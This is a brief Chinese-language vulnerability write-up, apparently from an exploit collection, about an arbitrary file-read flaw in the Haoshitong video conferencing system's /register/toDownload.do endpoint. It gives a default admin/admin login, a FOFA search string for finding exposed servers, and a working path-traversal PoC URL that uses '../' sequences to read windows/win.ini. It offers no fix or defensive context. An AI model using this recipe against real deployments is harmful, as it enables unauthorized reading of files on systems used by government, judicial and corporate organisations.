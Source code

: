 # 好视通视频会议系统 toDownload.do接口 任意文件读取漏洞

## 好视通视频会议系统 toDownload.do接口任意文件读取漏洞
好视通 是国内云视频会议知名品牌，拥有多项创新核心技术优势、多方通信服务牌照及行业全面资质 ，专注为政府、公检法司、教育、集团企业等用户提供“云+端+业务全场景”解决方案。其视频会议系统的路径(fastmeeting) /register/toDownload.do?fileName= 存在任意文件遍历漏洞，可通过fileName参数读取任意文件。 

弱口令admin/admin

## fofa
```
"深圳银澎云计算有限公司"
```

## poc
```
/register/toDownload.do?fileName=敏感文件路径
https://xxxxxx/register/toDownload.do?fileName=../../../../../../../../../../../../../../windows/win.ini

```



